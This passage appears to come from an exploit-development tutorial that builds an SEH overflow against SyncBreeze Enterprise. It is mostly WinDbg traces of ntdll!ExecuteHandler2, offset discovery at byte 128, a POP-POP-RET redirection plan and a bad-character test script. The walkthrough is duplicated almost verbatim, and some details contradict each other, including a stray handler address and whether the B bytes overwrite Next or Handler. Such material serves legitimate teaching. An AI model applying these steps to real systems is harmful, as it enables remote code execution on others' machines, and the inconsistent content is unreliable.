cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
41414141 ??              ???
```

To see which functions were called before we got control of the `EIP` register, we can use the `k` command, which lists the callstack.

```
0:014> k
 # ChildEBP RetAddr      
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 01e8f3e4 77b79262     0x41414141
01 01e8f408 77b79234     ntdll!ExecuteHandler2+0x26
02 01e8f4d0 77b65716     ntdll!ExecuteHandler+0x24
03 01e8f4d0 00b02a9d     ntdll!KiUserExceptionDispatcher+0x26
04 01e8feb8 00000000     libpal!SCA_ConfigObj::Deserialize+0x1d
```

We can see that `ntdll!ExecuteHandler2` was called right before we overwrote the `EIP` register with `0x41414141`.

Now that we have control over EIP, we need to check if any of the registers point to our buffer when we overwrite EIP.

```
0:014> r
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=41414141 esp=01e8f3e8 ebp=01e8f408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
41414141 ??              ???
0:014> dds esp La
01e8f3e8  77b79262 ntdll!ExecuteHandler2+0x26
01e8f3ec  01e8f4e8
01e8f3f0  01e8ff44
01e8f3f4  01e8f538
01e8f3f8  01e8f474
01e8f3fc  01e8fe0c
01e8f400  77b79280 ntdll!ExecuteHandler2+0x44
01e8f404  01e8ff44
01e8f408  01e8f4d0
01e8f40c  77b79234 ntdll!ExecuteHandler+0x24
0:014> u edx
ntdll!ExecuteHandler2+0x44:
77b79280 8b4c2404        mov     ecx,dword ptr [esp+4]
77b79284 f7410406000000  test    dword ptr [ecx+4],6
77b7928b b801000000      mov     eax,1
77b79290 7512            jne     ntdll!ExecuteHandler2+0x68 (77b792a4)
77b79292 8b4c2408        mov     ecx,dword ptr [esp+8]
77b79296 8b542410        mov     edx,dword ptr [esp+10h]
77b7929a 8b4108          mov     eax,dword ptr [ecx+8]
77b7929d 8902            mov     dword ptr [edx],eax
```

Analyzing our registers, we can see that none of them point to our buffer. Specifically, we did not overwrite any data where the stack pointer (`ESP`) and base pointer (`EBP`) point. We also notice that the `EDX` register is pointing somewhere inside the `ntdll!ExecuteHandler2` function.

This means that even though we have control over `EIP`, we do not have a direct way to easily redirect execution flow to our buffer, which would allow us to store our payload for a reverse shell.

To understand things better, we restart SyncBreeze and set a breakpoint at `ntdll!ExecuteHandler2`. From our previous analysis, we know a few things: the first `_EXCEPTION_REGISTRATION_RECORD` is a valid structure because it was not overwritten by our buffer. The overflow only affects the following record structure when the SEH mechanism tries to handle the exception. `ntdll!ExecuteHandler2` is called twice. When our breakpoint is triggered, we will let execution resume.

```
0:011> bp ntdll!ExecuteHandler2
0:011> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923c esp=01c1f40c ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
0:011> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923c esp=01c1f40c ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
0:011> u @eip L11
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
77b7923d 8bec            mov     ebp,esp
77b7923f ff750c          push    dword ptr [ebp+0Ch]
77b79242 52              push    edx
77b79243 64ff3500000000  push    dword ptr fs:[0]
77b7924a 64892500000000  mov     dword ptr fs:[0],esp
77b79251 ff7514          push    dword ptr [ebp+14h]
77b79254 ff7510          push    dword ptr [ebp+10h]
77b79257 ff750c          push    dword ptr [ebp+0Ch]
77b7925a ff7508          push    dword ptr [ebp+8]
77b7925d 8b4d18          mov     ecx,dword ptr [ebp+18h]
77b79260 ffd1            call    ecx
77b79262 648b2500000000  mov     esp,dword ptr fs:[0]
77b79269 648f0500000000  pop     dword ptr fs:[0]
77b79270 8be5            mov     esp,ebp
77b79272 5d              pop     ebp
77b79273 c21400          ret     14h
```

Once we hit the breakpoint the second time, let's check out the assembly code of the executing function.

```
77b79251 ff7514          push    dword ptr [ebp+14h]
77b79254 ff7510          push    dword ptr [ebp+10h]
77b79257 ff750c          push    dword ptr [ebp+0Ch]
77b7925a ff7508          push    dword ptr [ebp+8]
77b7925d 8b4d18          mov     ecx,dword ptr [ebp+18h]
77b79260 ffd1            call    ecx
```

From the assembly code, we see the `call ecx` instruction. From the call stack, this should be the instruction calling the overwritten `_except_handler` function (`0x41414141`). This function expects four arguments, as shown by the four `push` instructions before the `call ecx` instruction. This matches the function prototype of `_except_handler`.

In order to verify that `call ecx` actually invokes our `_except_handler` function, we can inspect the beginning of `ntdll!ExecuteHandler2`. This will save the `EBP` register on the stack, then move the stack pointer `ESP` to `EBP` in order to easily access arguments that will be passed to `ntdll!ExecuteHandler2`. If we step through each instruction inside the debugger, we should see three `push` instructions.

```
0:011> t
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923c esp=01c1f40c ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923d esp=01c1f408 ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x1:
77b7923d 8bec            mov     ebp,esp
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923f esp=01c1f408 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x3:
77b7923f ff750c          push    dword ptr [ebp+0Ch]  ss:002b:01c1f414=01c1ff44
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    StackBase:            01c20000
    StackLimit:           01c1e000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0026d000
    EnvironmentPointer:   00000000
    ClientId:             00001260 . 00000e80
    RpcHandle:            00000000
    Tls Storage:          006d9770
    PEB Address:          00240000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0
0:011> dt _EXCEPTION_REGISTRATION_RECORD 01c1fe0c
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01c1ff44 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x0064df5b     _EXCEPTION_DISPOSITION  libpal!md5_starts+0
```

From the debugger, we notice that the `push` instruction is responsible for pushing the `Next` member of the first `_EXCEPTION_REGISTRATION_RECORD` structure onto the stack.

```
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b79242 esp=01c1f404 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x6:
77b79242 52              push    edx
0:011> u @edx
ntdll!ExecuteHandler2+0x44:
77b79280 8b4c2404        mov     ecx,dword ptr [esp+4]
77b79284 f7410406000000  test    dword ptr [ecx+4],6
77b7928b b801000000      mov     eax,1
77b79290 7512            jne     ntdll!ExecuteHandler2+0x68 (77b792a4)
77b79292 8b4c2408        mov     ecx,dword ptr [esp+8]
77b79296 8b542410        mov     edx,dword ptr [esp+10h]
77b7929a 8b4108          mov     eax,dword ptr [ecx+8]
77b7929d 8902            mov     dword ptr [edx],eax
```

Carefully notice the addresses.

```
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b79243 esp=01c1f400 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x7:
77b79243 64ff3500000000  push    dword ptr fs:[0]     fs:0053:00000000=01c1fe0c
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    StackBase:            01c20000
    StackLimit:           01c1e000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0026d000
    EnvironmentPointer:   00000000
    ClientId:             00001260 . 00000e80
    RpcHandle:            00000000
    Tls Storage:          006d9770
    PEB Address:          00240000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0
```

The instruction `push dword ptr fs:[0]` pushes the value `01c1fe0c`, which is the same address shown in the `!teb` output for `ExceptionList`.

Then the third push instruction is followed by a `mov dword ptr fs:[0],esp` instruction, which will overwrite the current thread's `ExceptionList` with the value of `ESP`.

```
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7924a esp=01c1f3fc ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0xe:
77b7924a 64892500000000  mov     dword ptr fs:[0],esp fs:0053:00000000=01c1fe0c
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    StackBase:            01c20000
    StackLimit:           01c1e000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0026d000
    EnvironmentPointer:   00000000
    ClientId:             00001260 . 00000e80
    RpcHandle:            00000000
    Tls Storage:          006d9770
    PEB Address:          00240000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0

0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b79251 esp=01c1f3fc ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x15:
77b79251 ff7514          push    dword ptr [ebp+14h]  ss:002b:01c1f41c=01c1f474
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1f3fc
    StackBase:            01c20000
    StackLimit:           01c1e000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 0026d000
    EnvironmentPointer:   00000000
    ClientId:             00001260 . 00000e80
    RpcHandle:            00000000
    Tls Storage:          006d9770
    PEB Address:          00240000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0

0:011> dt _EXCEPTION_REGISTRATION_RECORD 01c1f3fc
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01c1fe0c _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77b79280     _EXCEPTION_DISPOSITION  ntdll!ExecuteHandler2+0
```

From the output above, we know that before pushing the parameters required for the `_except_handler` function and calling it, the operating system always updates the exception list with a new exception registration record. This new record is responsible for handling exceptions that might occur when calling the `_except_handler`. The function used to handle these exceptions will be placed inside `EDX` before calling `ntdll!ExecuteHandler2`.

We can keep going through the function inside the debugger and stop at `call ecx`. This will tell us the address we will redirect into.

```
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b79254 esp=01c1f3f8 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x18:
77b79254 ff7510          push    dword ptr [ebp+10h]  ss:002b:01c1f418=01c1f538
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b79257 esp=01c1f3f4 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x1b:
77b79257 ff750c          push    dword ptr [ebp+0Ch]  ss:002b:01c1f414=01c1ff44
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7925a esp=01c1f3f0 ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x1e:
77b7925a ff7508          push    dword ptr [ebp+8]    ss:002b:01c1f410=01c1f4e8
0:011> t
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7925d esp=01c1f3ec ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x21:
77b7925d 8b4d18          mov     ecx,dword ptr [ebp+18h] ss:002b:01c1f420=41414141
0:011> t
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=77b79260 esp=01c1f3ec ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x24:
77b79260 ffd1            call    ecx {41414141}
```

> Note: The operating system uses different exception handlers depending on the function that calls `_except_handler`. In this case, the handler at `0x770a3b20` deals with exceptions during `RtlpExecuteHandlerForException`. After `_except_handler` runs (via `call ecx`), the OS restores the original `ExceptionList` by removing the previously added `_EXCEPTION_REGISTRATION_RECORD`. This is done using two instructions: `mov esp, dword ptr fs:[0]` and `pop dword ptr fs:[0]`.


## Code Execution

With control over `EIP` confirmed, the next question is whether any register points into our buffer at the moment of the crash. That would give us a shortcut to our payload.

```
0:011> r
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=77b79260 esp=01c1f3ec ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x24:
77b79260 ffd1            call    ecx {41414141}
0:011> dds esp L6
01c1f3ec  01c1f4e8
01c1f3f0  01c1ff44
01c1f3f4  01c1f538
01c1f3f8  01c1f474
01c1f3fc  01c1fe0c
01c1f400  77b79280 ntdll!ExecuteHandler2+0x44
```

The answer is no. `ECX` holds `0x41414141`  the value the CPU is about to call  but that is a value we control, not a pointer to our data. `ESP` and `EBP` still point into legitimate stack frames belonging to `ntdll`. Nothing in the register set references our buffer.

This rules out the classic "overwrite `EIP`, jump to `ESP`" approach. In a conventional stack overflow, `ESP` frequently points directly into the attacker-controlled data, which makes a `jmp esp` gadget sufficient. Here, the SEH dispatch mechanism has already rearranged the stack by the time our overwritten handler is invoked, so that shortcut is unavailable.

To understand exactly what the stack looks like at the moment of the call, we need to trace the SEH dispatcher itself. We restart SyncBreeze, set a breakpoint on `ntdll!ExecuteHandler2`, and resume execution.

```
0:011> bp ntdll!ExecuteHandler2
0:011> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923c esp=01c1f40c ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
0:011> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=5a81ebbb edx=77b79280 esi=00000000 edi=00000000
eip=77b7923c esp=01c1f40c ebp=01c1f4d0 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
0:011> u @eip L11
ntdll!ExecuteHandler2:
77b7923c 55              push    ebp
77b7923d 8bec            mov     ebp,esp
77b7923f ff750c          push    dword ptr [ebp+0Ch]
77b79242 52              push    edx
77b79243 64ff3500000000  push    dword ptr fs:[0]
77b7924a 64892500000000  mov     dword ptr fs:[0],esp
77b79251 ff7514          push    dword ptr [ebp+14h]
77b79254 ff7510          push    dword ptr [ebp+10h]
77b79257 ff750c          push    dword ptr [ebp+0Ch]
77b7925a ff7508          push    dword ptr [ebp+8]
77b7925d 8b4d18          mov     ecx,dword ptr [ebp+18h]
77b79260 ffd1            call    ecx
77b79262 648b2500000000  mov     esp,dword ptr fs:[0]
77b79269 648f0500000000  pop     dword ptr fs:[0]
77b79270 8be5            mov     esp,ebp
77b79272 5d              pop     ebp
77b79273 c21400          ret     14h
```

As established earlier, the breakpoint fires twice: once for the legitimate handler and once for our corrupted one. The disassembly above explains why. The four `push` instructions immediately preceding `call ecx` are the SEH dispatcher preparing the four arguments that the `_except_handler` prototype requires. The handler address itself is loaded from `[ebp+18h]` into `ECX`, and then `call ecx` transfers control to it.

In other words, the dispatcher is doing exactly what it is supposed to do  it has no way of knowing that the handler address has been corrupted.

We can confirm this by single-stepping through the prologue. The `push ebp` / `mov ebp, esp` sequence establishes a standard frame, after which the dispatcher pushes three additional values before the arguments are staged.

```
0:011> t
...
77b7923f ff750c          push    dword ptr [ebp+0Ch]  ss:002b:01c1f414=01c1ff44
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    StackBase:            01c20000
    StackLimit:           01c1e000
    ...
0:011> dt _EXCEPTION_REGISTRATION_RECORD 01c1fe0c
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01c1ff44 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x0064df5b     _EXCEPTION_DISPOSITION  libpal!md5_starts+0
```

The first push writes the `Next` member of the current (valid) exception registration record onto the stack. The second push saves `EDX`, which holds the address of an internal recovery routine inside `ntdll!ExecuteHandler2`.

```
0:011> t
77b79242 52              push    edx
0:011> u @edx
ntdll!ExecuteHandler2+0x44:
77b79280 8b4c2404        mov     ecx,dword ptr [esp+4]
77b79284 f7410406000000  test    dword ptr [ecx+4],6
77b7928b b801000000      mov     eax,1
77b79290 7512            jne     ntdll!ExecuteHandler2+0x68 (77b792a4)
77b79292 8b4c2408        mov     ecx,dword ptr [esp+8]
77b79296 8b542410        mov     edx,dword ptr [esp+10h]
77b7929a 8b4108          mov     eax,dword ptr [ecx+8]
77b7929d 8902            mov     dword ptr [edx],eax
```

The third push saves the current exception list pointer, which it reads directly from `fs:[0]`.

```
0:011> t
77b79243 64ff3500000000  push    dword ptr fs:[0]     fs:0053:00000000=01c1fe0c
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    ...
```

The value pushed is `01c1fe0c`, which matches `ExceptionList` in the TEB exactly.

The instruction that follows then installs a fresh registration record on top of the chain:

```
0:011> t
77b7924a 64892500000000  mov     dword ptr fs:[0],esp fs:0053:00000000=01c1fe0c
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1fe0c
    ...
0:011> t
77b79251 ff7514          push    dword ptr [ebp+14h]  ss:002b:01c1f41c=01c1f474
0:011> !teb
TEB at 0026d000
    ExceptionList:        01c1f3fc
    ...
0:011> dt _EXCEPTION_REGISTRATION_RECORD 01c1f3fc
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x01c1fe0c _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77b79280     _EXCEPTION_DISPOSITION  ntdll!ExecuteHandler2+0
```

Before the dispatcher invokes our handler, it first registers a new exception record whose `Handler` points back into `ntdll!ExecuteHandler2` itself. This is a safety net: if the handler it is about to call faults, the dispatcher can recover. Once `fs:[0]` is updated, the `ExceptionList` in the TEB changes from `01c1fe0c` to `01c1f3fc`, and the new record at that address has its `Next` pointing to the old list and its `Handler` pointing to the internal recovery routine.

Only after this bookkeeping is complete does the dispatcher stage the arguments and make the call.

```
0:011> t
77b79254 ff7510          push    dword ptr [ebp+10h]  ss:002b:01c1f418=01c1f538
0:011> t
77b79257 ff750c          push    dword ptr [ebp+0Ch]  ss:002b:01c1f414=01c1ff44
0:011> t
77b7925a ff7508          push    dword ptr [ebp+8]    ss:002b:01c1f410=01c1f4e8
0:011> t
77b7925d 8b4d18          mov     ecx,dword ptr [ebp+18h] ss:002b:01c1f420=41414141
0:011> t
eax=00000000 ebx=00000000 ecx=41414141 edx=77b79280 esi=00000000 edi=00000000
eip=77b79260 esp=01c1f3ec ebp=01c1f408 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!ExecuteHandler2+0x24:
77b79260 ffd1            call    ecx {41414141}
```

The handler address is loaded from `[ebp+18h]`, and we can see it contains `41414141`  our corrupted value. The `call ecx` instruction then transfers control to it.

The important observation here is the value passed as the second argument. Looking at the pushes, the `EstablisherFrame` argument is `01c1ff44`. Examining that address confirms it lands squarely in our buffer.

```
0:011> dt _EXCEPTION_REGISTRATION_RECORD 01c1ff44
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x41414141 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x41414141     _EXCEPTION_DISPOSITION  +41414141
0:011> dd 01c1ff44
01c1ff44  41414141 41414141 41414141 41414141
01c1ff54  41414141 41414141 41414141 41414141
01c1ff64  41414141 41414141 41414141 41414141
01c1ff74  41414141 41414141 41414141 41414141
01c1ff84  41414141 41414141 41414141 41414141
01c1ff94  41414141 41414141 41414141 41414141
01c1ffa4  41414141 41414141 41414141 41414141
01c1ffb4  41414141 41414141 41414141 41414141
```

This is the key insight for the entire exploit. We cannot reach our buffer through `ESP`, but `EstablisherFrame`  the second argument to the handler  points directly into it. If we can make the overwritten handler return into `EstablisherFrame`, execution will land in data we control.

The standard technique for achieving this is a `POP reg, POP reg, RET` gadget. Recall the structure of the stack at the moment of `call ecx`: the return address into `ntdll` sits on top, followed by the four handler arguments. A two-pop-then-ret sequence discards the return address and the first argument (`ExceptionRecord`), then the `RET` consumes the second argument (`EstablisherFrame`) as the new return address. Execution resumes at `EstablisherFrame`, which is our buffer.

Before we can hunt for that gadget, we need the precise offset at which our input overwrites the handler. We generate a 1000-byte cyclic pattern with `msf-pattern_create`, matching the length of our original proof of concept, and substitute it for the `A` bytes in the script.

```
$ msf-pattern_create -l 1000 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac
<SNIP>
```

```python
    inputBuffer = b"Aa0Aa1Aa2Aa3A...<SNIP>..."
```

Restarting SyncBreeze and running the updated script produces a crash with a recognisable pattern in the SEH chain.

```
(218c.1ae0): Break instruction exception - code 80000003 (first chance)
eax=002d8000 ebx=00000000 ecx=77b9dc50 edx=77b9dc50 esi=77b9dc50 edi=77b9dc50
eip=77b65560 esp=01abff44 ebp=01abff70 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!DbgBreakPoint:
77b65560 cc              int     3
0:008> g
(218c.f64): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=63413163 ebx=01abfa0c ecx=01abff08 edx=01abf9c4 esi=01abff08 edi=01abfb10
eip=007b2a9d esp=01abf998 ebp=01abfeb8 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
007b2a9d ff5024          call    dword ptr [eax+24h]  ds:002b:63413187=????????
0:008> !exchain
01abfe0c: libpal!md5_starts+149fb (0082df5b)
01abff44: 33654132
Invalid exception stack at 65413165
```

The second entry in the exception chain now reads `33654132` instead of `41414141`. Querying `msf-pattern_offset` with that value gives us the exact distance from the start of the buffer to the handler field.

```
$ msf-pattern_offset -l 1000 -q 33654132        
[*] Exact match at offset 128
```

We can now build a PoC with a known layout: 128 bytes of padding, followed by four `B` bytes where the handler address will eventually live, and `C` bytes filling the remainder of the buffer.

```python
    inputBuffer = b"\x41" * 128
    inputBuffer += b"\x42\x42\x42\x42"
    inputBuffer += b"\x43" * (size - len(inputBuffer))
```

Running this against a freshly restarted SyncBreeze confirms the layout.

```
(1e14.1370): Break instruction exception - code 80000003 (first chance)
eax=002ad000 ebx=00000000 ecx=77b9dc50 edx=77b9dc50 esi=77b9dc50 edi=77b9dc50
eip=77b65560 esp=01acff44 ebp=01acff70 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!DbgBreakPoint:
77b65560 cc              int     3
0:008> g
(1e14.2564): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=01acfa0c ecx=01acff08 edx=01acf9c4 esi=01acff08 edi=01acfb10
eip=00872a9d esp=01acf998 ebp=01acfeb8 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
libpal!SCA_ConfigObj::Deserialize+0x1d:
00872a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:008> !exchain
01acfe0c: libpal!md5_starts+149fb (008edf5b)
01acff44: 42424242
Invalid exception stack at 41414141
```

The `!exchain` output shows `42424242` at the handler position, and the trailing `41414141` values remain in the `Next` field and the rest of the buffer. This confirms two things: the offset of 128 is correct, and we can place an arbitrary four-byte value into the handler field. From here, we have everything needed to select a gadget and redirect execution into our buffer.

## Bad Characters

Before we can search for a `POP POP RET` gadget or generate shellcode, we need to know which bytes will corrupt our payload when sent to the application. Certain byte values can be interpreted as control characters, string terminators, or protocol delimiters, causing the payload to be truncated or altered. The most well known example is `\x00` (null byte), which often terminates strings. In our case, the SyncBreeze protocol and the parsing routines may treat additional bytes as special, so we must identify every byte that cannot survive the round trip.

To do this, we modify our PoC script to send a full array of bytes from `\x01` to `\xff` after the offset that overwrites the SEH record. We omit `\x00` from the initial test because it is already a known bad character, but we will still include it in our final list of bytes to avoid.

The updated script looks like this:

```python
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
        b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
        b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
        b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
        b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
        b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
        b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
        b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
        b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
        b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
        b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
        b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
        b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
        b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
        b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
        b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )

    inputBuffer = b"\x41" * 128
    inputBuffer += b"\x42\x42\x42\x42"
    inputBuffer += badchars
    inputBuffer += b"\x43" * (size - len(inputBuffer))

...<SNIP>...
```

The buffer layout is as follows:

- 128 bytes of `\x41` (`A`) to fill the space before the SEH record.
- 4 bytes of `\x42` (`B`) to overwrite the `Next` field of the `_EXCEPTION_REGISTRATION_RECORD`. When we later gain control of `EIP`, it will be `0x42424242`, confirming we control that field.
- The full `badchars` array.
- The rest of the buffer is filled with `\x43` (`C`) up to the total size.

After updating the script, restart the SyncBreeze service (using `services.msc`), re‑attach WinDbg to the process, and let it continue with `g`. Then run the updated PoC from your development machine.

